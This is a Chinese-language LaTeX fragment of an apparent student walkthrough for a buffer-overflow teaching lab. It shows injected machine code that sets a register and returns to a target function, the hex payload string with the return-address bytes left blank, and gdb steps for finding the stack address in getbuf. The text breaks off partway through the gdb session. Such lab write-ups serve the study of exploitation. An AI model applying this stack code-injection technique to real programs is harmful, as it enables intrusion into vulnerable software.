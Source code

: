 \documentclass[12pt, a4paper, oneside]{ctexart}
\begin{document}
\begin{itemize}
\begin{lstlisting}
Disassembly of section .text:

0000000000000000 <.text>:
    0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
    7:	68 ec 17 40 00       	pushq  $0x4017ec
    c:	c3                   	retq       
\end{lstlisting}
    \item 但我不能将这个机器代码写在返回地址的位置，那个位置应该写
    这段机器代码的地址。如果我们打算将这段代码写在一开始输入的地方，
    就需要用 gdb 找到 getbuf 函数的栈顶。示例输入如下（ xx 所在地方表示要找的地址）：
\begin{lstlisting}
48 c7 c7 fa 97 b9 59 68 ec 17
40 c3 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
xx xx xx xx xx xx xx xx
\end{lstlisting}
    \item gdb 调试
\begin{lstlisting}
gdb ctarget
\end{lstlisting}
    在 test 函数处打上断点
\begin{lstlisting}
(gdb) b test
Breakpoint 1 at 0x401968: file visible.c, line 90.
\end{lstlisting}
    随便输入运行
\begin{lstlisting}
(gdb) r -q 01
\end{lstlisting}
    在 getbuf 函数分配栈帧之后、销毁栈帧之前打上断点
\begin{lstlisting}
(gdb) b *0x4017ac
Breakpoint 2 at 0x4017ac: file buf.c, line 14.
\end{lstlisting}
    按 c 继续执行
\begin{lstlisting}
(gdb) c
Continuing.


\end{lstlisting}
\end{itemize}
\end{document}
